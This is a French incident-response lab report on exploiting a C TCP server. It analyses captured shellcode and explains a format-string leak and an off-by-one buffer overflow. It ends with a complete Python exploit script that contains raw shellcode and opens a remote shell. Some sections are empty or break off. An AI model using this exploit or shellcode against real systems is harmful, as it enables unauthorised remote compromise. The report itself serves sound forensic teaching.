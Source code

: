% Réponse à incident - Exploitation d’une vulnérabilité dans un serveur TCP/IP programmé en langage C
% Olivier Nachin & Thomas Girard
% 17/01/22

# Introduction

La société Pressoare a subi une attaque informatique : l'intégrité des données a été compromises, un déséquilibre financier a été repéré sur un des serveurs, et du trafic anormal a été détecté ! L'objectif de notre mission est de comprendre l'origine de l'attaque, la reproduire, identifier les vulnérabilités et émettre des recommendations.

# Analyse Réseaux

A l'aide de la commande *strings trace.pcap*, on repère rapidement du contenu anormal dans la trace réseau par exemple *chmod* ou bien */bin/sh*. Wireshark permet alors d'approfondir ces pistes :

![attaque](/images/reseau_1.png)
*hexdump d'une des attaques*

On voit alors clairement les étapes suivi dans une de ses attaques. Il utilise tout d'abord la commande *ECHO %x% x%x%x %x* qui correspond à une attque "Format String" visant à afficher le haut de la pile. Le fait que cela ait abouti dans la trace réseau montre qu'il y a une première vulnérabilité dans le code qu'il faut approfondir (cf ci-dessous). Ensuite, l'attaquant utilise une payload qui lui permet d'obtenir un shell, d'où une deuxième vulnérabilité. L'attaquant liste ensuite

![attaque2](/images/reseau_2.png)
*Suite de l'attaque précédente*


# Analyse de la payload
## Décomposition de la payload

Grâce à la trace réseau, nous avons donc pu récupérer la payload utilisée par l’attaquant.

![payload_hexdump](/images/payload_hexdump.png)
*hexdump de la payload utilisée par l’attaquant*

* La payload commence par 64 octets de valeur "90", ce qui correspond au *toboggan de NOP*. L’attaquant souhaite que le fil d’exécution du programme du serveur arrive dans ce toboggan afin de sauter de NOP en NOP jusqu’au code permettant d’obtenir le shell.
* Ensuite, la payload continue avec 127 octets correspondant au code permettant d’obtenir un shell (nous allons détailler cette partie dans la suite).
* Puis, un padding de 9 "A" est ajouté afin d’obtenir exactement 200 octets depuis le début de la payload (de même, nous allons expliquer pourquoi il est important d’obtenir 200 octets exactement à cet endroit de la payload).
* Il y a ensuite 14 octets restants dont nous allons détailler le rôle par la suite.

## Analyse du code assembleur permettant d’obtenir un shell

Afin d’analyser la façon dont l’attaquant a réussi à ouvrir le shell, on désassemble le code permettant de l’obtenir.

![code_assembleur](/images/extrait_assembleur.png)
*extrait du code assembleur permettant d’obtenir le shell*

* On commence par les instructions classiques jump/call/pop qui permettent d’écrire l’adresse de la chaîne de caractères "/bin/sh" dans le registre ebp (cette adresse sera utiliée par la suite au moment de l’appel système execve).
* On a ensuite une remise à 0 d’une partie des registres.
* On remarque ensuite un appel à *mmap2*, sûrement pour se réserver un segment en mémoire avec des permissions particulières.
* On a ensuite ce qui semble être un boucle for avec un appel système à *getppeername* afin probablement d’attacher le shell à la socket utilisée par l’attaquant.
* Enfin, on trouve bien l’appel système à *execve* avec la chaîne de caractère "/bin/sh" en paramètre afin de lancer le shell.


# Faille n° 1 : format string


# Faille n° 2 : buffer overflow

Après avoir récupéré une adresse de la stack grâce à la faille n°1 *format string*, l’attaquant a utilisé une deuxième faille dans le code C afin de pouvoir réaliser un buffer overflow.

Afin d’éviter justement les buffer overflows, les développeurs ont choisi de créer une fonction *sanitizeBuffer* qui permet de copier l’entrée utilisateur contenue dans *unsafeBuffer* dans un buffer limité à 200 caractères *safeBuffer* et en stoppant la copie au premier au premier caractère non-imprimable trouvé. Cependant, les développeurs se sont trompés dans l’écriture de leur code ce qui permet a permis à l’attaquant d’écrire plus de 200 caractères.
En effet, si l’attaquant rentre exactement 200 caractères suivis d’un retour à la ligne "\n", alors le code C va réaliser les actions suivantes :
* remplacement du "\n" (0a en hexadécimal) par "\0"
* calcul de strlen(unsafeBuffer), ici le résultat de ce calcul donne 200
* copie caractère par caractère de *unsafeBuffer* dans *safeBuffer* de l’indice 0 à l’indice 201 ! (cf capture d’écran ci-dessous) Un caractère de trop a donc été copié et donc l’attaquant peut déborder de *safeBuffer*. Ce caractère copié en trop est forcément un 0 (car le 201ième caractère est un "\n" qui a été remplacé précédemment par un "\0" et est copié dans la mémoire après *safeBuffer*.

![faille_sanitizeBuffer](/images/faille_sanitizeBuffer.png)
*extrait du code C de la fonction incriminée sanitizeBuffer*

La question est donc à présent de savoir exactement où ce 0 *en trop* a été copié. Avec gdb, en utilisant notamment la commande : *print &variable*, on peut reconstituer l’état de la stack au moment du déroulement de cette boucle for. On obtient alors le résultat suivant :

# Reproduction de l'attaque à l'aide d'un script

Nous avons reproduit l'attaque à l'aide d'un script python qui nous a permis d'ouvrir un shell. Voici notre code :

```python
#!/usr/bin/env python3
import binascii
import socket

charge_1 = '90909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090eb715d31c031db31c931d231ff31f6b02289c6b0c0b10166c1e10cb2034fcd8089c131ffb30289ca80c10431c066b87001fec3c602108939cd8039f875ed8b013c0275e789ca31c931c0b03fcd8041b03fcd8041b03fcd8031c0896d0889450c884507b00b89eb8d4d088d550ccd80b001cd80e88affffff2f62696e2f73684141414141414141410a0000000d000000'

HOST = '172.28.128.100'
PORT = 6000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(b'ECHO %x % x%x%x %x \n')
    data_echo = s.recv(1024)
    print(data_echo)
    adresse = str(data_echo).split(" ")[-2] # on récupère la dernière adresse
    adresse_2 = int(adresse, 16) # on convertit l'hexa en decimal
    adresse_3 = int(adresse_2) - 10 # on retranche 10
    adresse_4 = hex(adresse_3) # on repasse en hexa
    milieu_ajout = adresse_4[-2:]
    charge_2 = charge_1+milieu_ajout
    fin_adresse = int(adresse[-2:], 16)- 4 # on convertit en decimal et on retranche 4
    charge_3 = charge_2 + hex(fin_adresse)[2:] + adresse_4[2:-2][-2:] + adresse_4[2:-2][-4:-2] + adresse_4[2:-2][0:2] + "0a"
    charge_4 = binascii.unhexlify(charge_3) #on ajoute les "/x"

    s.sendall(charge_4)
    s.sendall(b'ls \n') # on vérifie que le shell fonctionne
    data_reception = s.recv(1024)
    print(data_reception)
```

Voici ce que donne le lancement de ce code sur la machine Analyste :

![attaque_reussie](/images/attaque_reussie.png)
*reproduction de l'attaque*

# Conclusion

Finalement, nous avons réussi à comprendre les étapes utilisées par l'attaquant et les vulnérabilités qu'il a exploitées. Nous avons également pu reproduire l'attaque et émettre des recommandations pour qu'une telle attaque ne soit plus possible à l'avenir.
